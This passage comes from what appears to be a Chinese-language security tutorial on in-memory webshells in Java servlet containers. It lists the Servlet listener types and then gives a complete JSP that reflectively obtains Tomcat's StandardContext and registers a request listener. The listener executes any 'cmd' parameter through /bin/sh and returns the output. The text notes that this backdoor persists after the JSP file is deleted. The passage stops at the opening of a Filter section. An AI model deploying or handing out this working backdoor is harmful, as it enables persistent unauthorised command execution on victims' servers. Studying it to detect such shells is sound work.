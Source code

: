 Listener 是最先被加载的, 所以可以利用动态注册恶意的 Listener 植入内存马。

-   Listener 分类
    -   ServletContext 监听，服务器启动和终止时触发
        -   ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
        -   ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
    -   Session 监听，Session 建立摧毁时触发
        -   javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
        -   javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听
    -   Request 监听，每次访问服务时触发
        -   ServletRequestListener：对 Request 请求进行监听（创建、销毁）
        -   ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）

如果能动态添加 Listener 那 Request 监听最适合植入内存马。

`ServletRequestListener` 提供两个方法：`requestInitialized` 和 `requestDestroyed`，两个方法均接收 `ServletRequestEvent` 作为参数，`ServletRequestEvent` 中又储存了 `ServletContext` 对象和 `ServletRequest` 对象，因此在访问请求过程中可以在 request 创建和销毁时实现自己的恶意代码，完成内存马的实现。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221719716.png-water_print](assets/1699410171-7f3dc7118370fa2ef9bae8d050aa7648.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109221719716.png-water_print")

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>``` | ```java<br><%@ page import="org.apache.catalina.core.StandardContext" %><br><%@ page import="org.apache.catalina.core.ApplicationContext" %><br><%@ page import="java.lang.reflect.Field" %><br><%@ page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><br><%@ page import="org.apache.jasper.tagplugins.jstl.core.Out" %><br><%@ page import="java.io.IOException" %><br><%@ page import="javax.servlet.annotation.WebServlet" %><br><%@ page import="java.io.InputStreamReader" %><br><%@ page import="java.io.BufferedReader" %><br><%<br>     Object obj = request.getServletContext();<br>     Field field = obj.getClass().getDeclaredField("context");<br>     field.setAccessible(true);<br>     ApplicationContext applicationContext = (ApplicationContext) field.get(obj);<br>     field = applicationContext.getClass().getDeclaredField("context");<br>     field.setAccessible(true);<br>     StandardContext standardContext = (StandardContext) field.get(applicationContext);<br>     ListenH listenH = new ListenH(request, response);<br>    standardContext.addApplicationEventListener(listenH);<br>    out.print("test");<br>%><br><%!<br>    public class ListenH implements ServletRequestListener {<br>        public ServletResponse response;<br>        public ServletRequest request;<br><br>        ListenH(ServletRequest request, ServletResponse response) {<br>            this.request = request;<br>            this.response = response;<br>        }<br><br>        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {<br>        }<br><br>        public void requestInitialized(ServletRequestEvent servletRequestEvent) {<br>            String cmder = request.getParameter("cmd");<br>            String[] cmd = new String[]{"/bin/sh", "-c", cmder};<br>            try {<br>                Process ps = Runtime.getRuntime().exec(cmd);<br>                BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));<br>                StringBuffer sb = new StringBuffer();<br>                String line;<br>                while ((line = br.readLine()) != null) {<br>                    //执行结果加上回车<br>                    sb.append(line).append("<br>");<br>                }<br>                String result = sb.toString();<br>                this.response.getWriter().write(result);<br>            }catch (Exception e){<br>                System.out.println("error ");<br>            }<br><br>        }<br>    }<br>%><br>``` |

通过 jsp 尝试动态添加 Listener，这里需要注意, 因为我们是直接通过 add 来添加, 所以每次访问该 jsp 页面的时候都会重复添加 Listener，导致恶意 payload 重复执行。添加成功后访问任意存在的页面 `?cmd=` 要执行的命令即可, 即使 jsp 文件被删除依然可以使用。

#### [](#323-filter-%E5%86%85%E5%AD%98%E9%A9%AC)3.2.3 Filter 内存马

Filter 被称之为过滤器，是 Java 中最常见也最实用的技术之一，通常被用来处理静态 web 资源、访问权限控制、记录日志等附加功能等等。一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet。

未完待续。。
